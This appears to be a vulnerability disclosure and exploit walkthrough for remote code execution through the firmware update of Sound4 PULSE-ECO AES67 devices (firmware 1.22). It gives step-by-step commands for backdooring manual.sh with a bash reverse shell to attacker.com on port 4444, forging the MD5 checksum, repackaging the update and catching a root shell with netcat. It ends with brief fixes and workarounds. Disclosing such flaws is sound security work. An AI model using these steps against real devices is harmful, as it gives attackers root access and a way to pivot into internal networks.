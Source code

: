 # Sound4 PULSE-ECO AES67 (Firmware 1.22) - Remote Code Execution (RCE)

## Description

The Sound4 PULSE-ECO AES67 web-based management interface is vulnerable to Remote Code Execution (RCE) via a malicious firmware update package. The update mechanism fails to validate the integrity of `manual.sh`, allowing an attacker to inject arbitrary commands by modifying this script and repackaging the firmware.

## Product:
- **Vendor**: Sound4
- **Model**: PULSE-ECO AES67
- **Firmware/Software**: 1.22

## Vulnerability:
- **Type**: Remote Code Execution (RCE)
- **Impact**: Full remote shell access as root via firmware update mechanism.
- **Access Required**: Web-based management interface login

## Vulnerable Endpoints:
- `/settings` → Firmware Upload (Software Update)

## Exploit Summary:
An attacker with access to the web-based admin interface can craft a malicious firmware update package that includes a backdoored `manual.sh` file, leading to remote code execution during the update process.

## Exploitation Steps:

1. **Download the Original Firmware**  
   From the official Sound4 support page:  
https://www.sound4helpdesk.com/pulse-eco-downloads


2. **Extract Firmware**  
```bash
tar -xvf PULSE-AES67-eco_v1.22.tar
```
3. **Modify manual.sh**
Replace or append your reverse shell in manual.sh:
```bash
echo 'bash -i >& /dev/tcp/attacker.com/4444 0>&1' > manual.sh
chmod +x manual.sh
```
4. **Update md5sum File**
Recalculate the checksum and replace it in md5sum:
```bash
md5sum manual.sh 
nano md5sum
```
5. **Prepare Firmware Structure**
Ensure these files are present:

    manual.sh (malicious)

    md5sum

    md5sum.gpg

    versions.sh

    warnings.xml

6. **Repackage Firmware**
```bash
tar -cf PULSE-AES67-eco_v1.22 ./
xz -C crc64 -k PULSE-AES67-eco_v1.22
mv PULSE-AES67-eco_v1.22.xz PULSE-AES67-eco_v1.22.upgbox
```
7. **Upload via Web Interface**

        Login to the web admin interface of the Sound4 device

        Navigate to: Settings → Software Update

        Upload the modified .upgbox file

8. **Trigger and Receive Reverse Shell**
    Once uploaded, the device executes manual.sh, and the reverse shell is triggered.

## Notes:

    Ensure listener is running on your attack machine (e.g., nc -lvnp 4444).

    The vulnerability relies on the firmware verification process trusting the MD5 hash and not validating against a secure signature.

## Proof of Concept (PoC) 
https://github.com/user-attachments/assets/44f15b92-05da-4378-b9a7-7f46a19ecc86

## Impact

Successful exploitation allows a remote attacker to:

    Execute arbitrary shell commands as root

    Gain persistent access to the device

    Modify system behavior or firmware

    Pivot to internal networks if the device is not properly segmented

## Suggested Fixes

    Implement strict integrity checks (cryptographic signature verification) during firmware upload.

    Restrict upload functionality to trusted administrators only.

    Sanitize and validate manual.sh execution.

## Workarounds

    Disable firmware upload functionality via the web interface if not in use.

    Use access control lists (ACLs) and firewall rules to restrict access to the web interface.

    Monitor firmware integrity by verifying checksums and timestamps regularly.

